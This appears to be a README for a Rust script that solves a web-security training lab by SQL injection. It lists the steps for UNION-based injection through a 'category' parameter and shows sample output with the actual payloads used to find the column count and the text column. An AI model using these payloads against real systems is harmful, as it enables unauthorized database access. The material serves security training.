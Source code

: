 ## Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.
4. After determining the number of columns, replace each column with the desired text one at a time.
5. Repeat this process until you receive a valid response.

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

## Expected Output

```
⦗#⦘ Injection parameter: category
⦗#⦘ Desired text: 67doLF
❯❯ Trying payload: ' UNION SELECT null-- -
❯❯ Trying payload: ' UNION SELECT null, null-- -
❯❯ Trying payload: ' UNION SELECT null, null, null-- -
⦗#⦘ Number of columns: 3
❯❯ Trying payload: ' UNION SELECT '67doLF', null, null-- -
❯❯ Trying payload: ' UNION SELECT null, '67doLF', null-- -
⦗#⦘ the column containing text: 2
🗹 The lab should be marked now as solved
```
